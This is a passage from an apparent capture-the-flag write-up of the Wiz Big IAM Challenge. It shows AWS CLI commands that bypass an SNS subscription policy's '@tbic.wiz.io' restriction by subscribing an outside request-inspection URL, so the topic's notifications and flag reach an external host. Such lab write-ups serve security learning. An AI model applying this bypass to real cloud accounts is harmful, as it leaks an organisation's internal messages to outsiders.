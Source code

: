 The policy allows subscribing to the notification system `TBICWizPushNotifications`, however only if our endpoint end in `@tbic.wiz.io`. This is meant to only allow internal e-mail addresses to subscribe to the system.


```
> aws sns subscribe --topic-arn arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications --protocol email --notification-endpoint robin@tbic.wiz.io
{
    "SubscriptionArn": "pending confirmation"
}
```

This doesn't help me at all, since I don't have access to the e-mail `robin@tbic.wiz.io`. This restriction can be bypassed, by using a webserver as the endpoint instead of an e-mail address and appending `@tbic.wiz.io` as a subdirectory. I used [Request Basket][rbasket] to inspect incoming HTTP requests.

```
> aws sns subscribe --topic-arn arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications --protocol https --notification-endpoint https://rbaskets.in/ulrh6ff/@tbic.wiz.io
{
    "SubscriptionArn": "pending confirmation"
}
```

In the basket I saw a first notification, which prompted me to validate my subscription attempt by opening a specific URL and after that I got a second notification containing the flag.

![flag3](/assets/images/bigiamchallenge/image2.png)


[link]: https://www.wiz.io/blog/the-big-iam-challenge
[rbasket]: https://rbaskets.in
[forallvalues]: https://awstip.com/creating-unintentional-ways-to-bypass-aws-iam-policies-when-using-the-forallvalues-operator-3516a7f17ed0
[finished]: https://bigiamchallenge.com/finisher/7TZWgQ7E